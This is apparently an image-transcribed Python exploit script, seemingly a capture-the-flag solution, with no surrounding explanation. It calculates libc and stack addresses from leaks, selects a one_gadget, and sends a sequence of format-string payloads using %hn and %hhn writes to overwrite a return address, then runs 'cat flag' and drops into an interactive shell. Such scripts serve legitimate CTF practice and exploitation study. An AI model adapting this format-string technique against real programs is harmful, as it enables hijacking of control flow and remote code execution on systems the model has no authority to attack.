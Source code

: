 ```python
LOG_ADDR('libc_addr', libc_addr)

stack_ret_addr = stack_addr - 0xe0
libc_base_addr = libc_addr - 0x3e7638

LOG_ADDR('stack_ret_addr', stack_ret_addr)
LOG_ADDR('libc_base_addr', libc_base_addr)

gadgets = [0x4f2c5, 0x4f322, 0x10a38c]
one_gadget = libc_base_addr + gadgets[0]

LOG_ADDR('one_gadget', one_gadget)
sleep(1)

payload = "%{}c%9$hn".format((stack_ret_addr & 0xffff))
r.sendline(payload)
r.recv()

for _ in range(2):
    r.sendline('a' * 0x30)
    r.recv()
    sleep(2)

payload = "%{}c%35$hn".format((one_gadget & 0xffff)) + 'a' * 0x10
r.sendline(payload)
r.recv()
sleep(2)


for _ in range(2):
    r.sendline('a' * 0x30)
    r.recv()
    sleep(2)

payload = "%{}c%9$hhn".format((stack_ret_addr & 0xff) + 2)
r.sendline(payload)
r.recv()
sleep(2)

for _ in range(2):
    r.sendline('a' * 0x30)
    r.recv()
    sleep(2)

payload = "%{}c%35$hhn".format(((one_gadget >> 16) & 0xff)) + 'a' * 0x10
r.sendline(payload)
r.recv()
sleep(2)

for _ in range(2):
    r.sendline('a' * 0x30)
    r.recv()
    sleep(2)

r.send("6" * 8 + '\x00' * 8)

sleep(3)

r.sendline("cat flag")

r.interactive()
```
